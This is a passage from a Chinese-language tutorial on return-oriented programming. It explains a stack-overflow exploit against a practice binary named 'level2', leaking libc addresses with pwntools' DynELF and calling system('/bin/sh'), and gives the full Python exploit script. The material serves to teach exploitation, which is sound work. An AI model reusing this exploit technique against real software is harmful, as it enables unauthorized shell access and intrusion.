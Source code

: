 因为我们在执行完`read()`之后要接着调用`system(“/bin/sh”)`，并且read()这个函数的`参数有三个`，所以我们需要一个`pop pop pop ret`的`gadget`用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。

整个攻击过程如下：首先通过DynELF获取到`system()`的地址后，我们又通过read将`“/bin/sh”`写入到.bss段上，最后再调用`system（.bss）`，执行“/bin/sh”。最终的exp如下:

``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('./level2')
write_plt = elf.symbols['write']
read_plt = elf.symbols['read']
vulfun_addr = 0x08048471

def leak(address):
	payload1 = 'A'*140
	payload1 += p32(write_plt)
	payload1 += p32(vulfun_addr)
	payload1 += p32(1)
	payload1 += p32(address)
	payload1 += p32(4)
	p.send(payload1)
	data = p.recv(4)
	print "%#x => %s" % (address,(data or '').encode('hex'))
	return data

p = process('./level2')
#p = remote('127.0.0.1',10002)

d = DynELF(leak,elf=ELF('./level2'))
system_addr = d.lookup('system','libc')
print "system_addr= " + hex(system_addr)

bss_addr = 0x0804a020
pppr_addr = 0x080484f9

payload2 = 'A'*140
payload2 += p32(read_plt)
payload2 += p32(pppr_addr)
payload2 += p32(0)
payload2 += p32(bss_addr)
payload2 += p32(8)
payload2 += p32(system_addr)
payload2 += p32(vulfun_addr)
payload2 += p32(bss_addr)

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")
p.interactive()
```
